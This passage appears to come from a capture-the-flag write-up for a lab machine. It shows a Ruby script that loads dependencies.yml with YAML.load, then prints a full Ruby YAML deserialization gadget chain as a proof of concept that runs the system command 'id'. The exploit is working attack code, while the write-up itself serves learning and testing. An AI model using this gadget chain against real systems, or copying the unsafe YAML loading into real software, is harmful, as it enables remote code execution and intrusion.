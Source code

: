 Let's check the `dependencies.yml`

```
def list_from_file
   YAML.load(File.read("dependencies.yml"))
end
```

As we can see we are `loading` a external file...

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

\
We found the payload in this `gist` https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby\_yaml\_load\_sploit2-yaml

## POC

```
henry@precious:/dev/shm$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```
